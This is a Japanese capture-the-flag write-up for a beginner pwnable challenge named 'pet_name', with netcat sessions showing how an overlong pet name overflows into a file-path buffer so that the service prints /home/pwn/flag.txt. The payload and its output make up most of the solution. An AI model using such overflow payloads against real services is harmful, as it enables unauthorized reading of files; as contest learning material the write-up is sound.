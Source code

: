 # pet_name:pwnable:100pts
ペットに名前を付けましょう。ちなみにフラグは/home/pwn/flag.txtに書いてあるみたいです。  
`nc pet-name.challenges.beginners.seccon.jp 9080`  

[pet_name.zip](pet_name.zip)  

# Solution
接続先とソースが渡される。  
接続すると猫に名前を付けられるようだ。  
```bash
$ nc pet-name.challenges.beginners.seccon.jp 9080
Your pet name?: Pwndog
Pwndog sound: meow
```
ひとまず長すぎる名前を付けてみる。  
```bash
$ nc pet-name.challenges.beginners.seccon.jp 9080
Your pet name?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
File not found: AAAAAAAAAAAAAAAAAA
```
すると`File not found`と`AAAAAAAAAAAAAAAAAA`が表示された。  
`AAAAAAAAAAAAAAAAAA`をファイル名だと認識していそうなので、ここを`/home/pwn/flag.txt`にしてみる。  
```bash
$ nc pet-name.challenges.beginners.seccon.jp 9080
Your pet name?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt sound: ctf4b{3xp1oit_pet_n4me!}
```
恐ろしい名前のペットからflagが得られた。  

## ctf4b{3xp1oit_pet_n4me!}